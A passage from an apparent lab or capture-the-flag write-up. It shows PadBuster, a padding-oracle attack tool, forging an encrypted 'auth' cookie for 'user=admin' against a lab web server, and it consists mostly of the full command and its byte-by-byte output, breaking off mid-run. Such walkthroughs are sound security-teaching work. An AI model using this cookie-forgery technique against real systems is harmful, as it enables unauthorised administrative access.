 Knowing what the underlying plaintext looks like, now I can run it again with
`-plain user=admin` to get back a valid cookie with that plaintext:

    
    
    oxdf@hacky$ padbuster http://10.10.11.119/ k8MxxWHb3SFbTx%2BG7H6VaMfc4lKS6TUU 8 -cookie auth=k8MxxWHb3SFbTx%2BG7H6VaMfc4lKS6TUU -plaintext user=admin
    
    +-------------------------------------------+
    | PadBuster - v0.3.3                        |
    | Brian Holyfield - Gotham Digital Science  |
    | labs@gdssecurity.com                      |
    +-------------------------------------------+
    
    INFO: The original request returned the following
    [+] Status: 302
    [+] Location: home/index.php
    [+] Content Length: 13389
    
    INFO: Starting PadBuster Encrypt Mode
    [+] Number of Blocks: 2
    
    INFO: No error string was provided...starting response analysis
    
    *** Response Analysis Complete ***
    
    The following response signatures were returned:
    
    -------------------------------------------------------
    ID#     Freq    Status  Length  Location
    -------------------------------------------------------
    1       1       200     13389   N/A
    2 **    255     302     0       ../logout.php?err=1
    -------------------------------------------------------
    
    Enter an ID that matches the error condition
    NOTE: The ID# marked with ** is recommended : 2
    
    Continuing test with selection 2
    
    [+] Success: (196/256) [Byte 8]
    [+] Success: (148/256) [Byte 7]
    [+] Success: (92/256) [Byte 6]
    [+] Success: (41/256) [Byte 5]
    [+] Success: (218/256) [Byte 4]
    [+] Success: (136/256) [Byte 3]
    [+] Success: (150/256) [Byte 2]
    [+] Success: (190/256) [Byte 1]
    
    Block 2 Results:
    [+] New Cipher Text (HEX): 23037825d5a1683b
    [+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d
    
    [+] Success: (1/256) [Byte 8]
    [+] Success: (36/256) [Byte 7]
    [+] Success: (180/256) [Byte 6]
    [+] Success: (17/256) [Byte 5]
    [+] Success: (146/256) [Byte 4]
    [+] Success: (50/256) [Byte 3]
    [+] Success: (132/256) [Byte 2]
    [+] Success: (135/256) [Byte 1]
    